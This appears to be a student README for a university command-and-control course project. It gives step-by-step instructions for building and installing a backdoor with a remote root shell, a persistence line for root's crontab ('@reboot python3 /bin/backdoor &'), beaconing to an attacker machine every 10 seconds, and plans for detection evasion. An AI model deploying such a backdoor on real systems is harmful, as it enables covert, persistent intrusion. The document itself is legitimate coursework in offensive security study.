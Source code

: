 # C S 378 - Command and Control Project (Donald and Vincent)

Currently implements:
* Remote shell access (However, commands don't persist across different calls)
* Authentification (symmetric key encryption)
* Persistence (cronjob that activates every reboot)

## Set Up

### Configure IP (IMPORTANT)

Edit the IP addresses in the **_config.py_** file to match the IP address of the attacker and target machine. Can also set which port number the attacker machine will use to listen.

### Creating executables

To create the attacker and backdoor executable things, run the make file. One file named 'attacker'
and another file named 'backdoor' should be created.

### Setting Up and Running Backdoor 

#### Installing necessary packages (on week 4)

Run the following commands:

sed -i 's/mirrorlist/#mirrorlist/g' /etc/yum.repos.d/CentOS-*

sed -i 's|#baseurl=http://mirror.centos.org|baseurl=http://vault.centos.org|g' /etc/yum.repos.d/CentOS-*

sudo yum install -y python3

python3 -m pip install pexpect

python3 -m pip install -U pip setuptools

python3 -m pip install cryptography

#### Creating reboot cronjob 

Place the 'backdoor' executable in the /bin directory of the target machine.

Run **_chmod +x backdoor_** to give execute permissions.

Run the command **_sudo crontab -e_**

Scroll to the bottom (after all #) and add the line: **_@reboot python3 /bin/backdoor &_**

Reboot the system (**_sudo reboot_**), cronjob should run every restart. Backdoor should call out
to attacker machine every 10 seconds (can edit this amount of time in **_config.py_**).

### Setting Up and Running Attacker

Place the 'attacker' executable on the attack machine.

Run **_chmod +x attacker_** to give execute permissions.

Run **_./attacker_** in the command line to run the file and wait for the connection to be initiated by the target machine.

Once connection is made, we should be running as the root user and are in root's directory (at least when testing on Kali machine as target)

## Still Need to Work On:

* Evading detection
* Write-up
* Maybe figure out how to fix remote shell (or maybe ask Dr. Hintz if what we have is okay)
* Detection script (extra credit, but maybe not that hard?)
* Sometimes connection breaks in certain situations, fix these bugs
  * like when running **_cat /bin/ls_** Looks like something is wrong with trying to encode/decode the characters in the file

